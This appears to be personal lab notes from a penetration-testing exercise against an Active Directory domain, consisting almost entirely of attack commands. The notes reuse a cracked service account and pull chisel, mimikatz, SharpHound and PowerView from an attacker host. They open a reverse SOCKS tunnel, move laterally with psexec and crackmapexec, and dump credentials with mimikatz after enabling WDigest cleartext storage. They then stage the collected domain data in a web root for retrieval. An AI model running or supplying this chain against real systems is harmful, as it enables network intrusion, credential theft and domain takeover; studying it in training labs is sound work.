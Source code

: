 # gain an account
svc_sql / lucky7

# serach the next targets
## Web
```zsh
PS> arp -a
```

# create useful connection for shell
## Attack
```zsh
$ python -m http.server 81
```
## Web
```zsh
PS> Invoke-WebRequest -Uri http://10.10.14.69:81/chisel.exe -Outfile "C:\chisel.exe"
```
## Attack
```zsh
$ chisel_1.9.1_linux_amd64 server -p 8001 --reverse
```
## Web
```zsh
PS> c:\chisel.exe client 10.10.14.69:8001 R:5000:socks
```
## Attack
```zsh
$ sudo vim /etc/proxychains4.conf
socks5 	127.0.0.1 5000
```

# try the next target with a gained account
```zsh
$ proxychains4 crackmapexec smb 172.16.6.100 -u "svc_sql" -p "lucky7"
$ proxychains4 psexec.py INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.100
# failed: [-] share 'ADMIN$' or share 'C$' is not writable.
$ proxychains4 psexec.py INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50
```

C:\Windows\system32> dir /b | findstr /i mimi


## MS01
net share

## Web
```zsh
PS> Invoke-WebRequest -Uri http://10.10.14.69:81/mimikatz.exe -Outfile "C:\mimikatz.exe"
PS> net use \\172.16.6.50\C$ /user:svc_sql lucky7
PS> copy C:\mimikatz.exe \\172.16.6.50\C$\
```

## MS01
```zsh
> C:\mimikatz.exe
mimikatz# privilege::debug
mimikatz# sekurlsa::logonpasswords
> reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
> reg query "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest"
# to update
> shutdown /r /t 0 /f
> C:\mimikatz.exe
mimikatz# privilege::debug
mimikatz# sekurlsa::wdigest
```

## Web
```zsh
PS> Invoke-WebRequest -Uri http://10.10.14.69:81/SharpHound.exe -Outfile "C:\SharpHound.exe"
PS> net use \\172.16.6.50\C$ /user:svc_sql lucky7
PS> copy C:\SharpHound.exe \\172.16.6.50\C$\

```zsh
PS> Invoke-WebRequest -Uri http://10.10.14.69:81/PowerView.ps1 -Outfile "C:\PowerView.ps1"
PS> net use \\172.16.6.50\C$ /user:svc_sql lucky7
PS> copy C:\PowerView.ps1 \\172.16.6.50\C$\
```
```

## MS01
```zsh
> C:\SharpHound.exe -c ALL --zipfilename enum
```

## Web
```zsh
PS> copy \\172.16.6.50\C$\20240901013650_enum.zip C:\
PS> copy C:\20240901013650_enum.zip C:\inetpub\wwwroot\uploads\
```